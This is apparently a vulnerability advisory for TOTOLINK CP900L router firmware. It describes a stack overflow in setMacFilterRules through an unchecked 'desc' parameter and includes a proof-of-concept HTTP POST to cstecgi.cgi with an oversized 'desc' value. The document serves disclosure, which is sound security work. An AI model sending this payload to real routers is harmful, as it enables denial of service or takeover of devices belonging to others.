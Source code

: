 # TOTOLINK CP900L V4.1.5cu.798_B20221228 stack overflow

### Product Information

Product: TOTOLINK CP900L Firmware Version: V4.1.5cu.798_B20221228  Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### Analysis

In the setMacFilterRules function, attackers can publish the parameter desc to v6 without checking its length and then copy it onto the stack.

![image-20240525130536664](./image-20240525130536664.png)POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.1
Connection: close

{
    "topicurl": "setting/setMacFilterRules",
    "addEffect": "0",
    "MacAddress": "00:1A:2B:3C:4D:5E",
    "desc": "a"*0x100
}
```

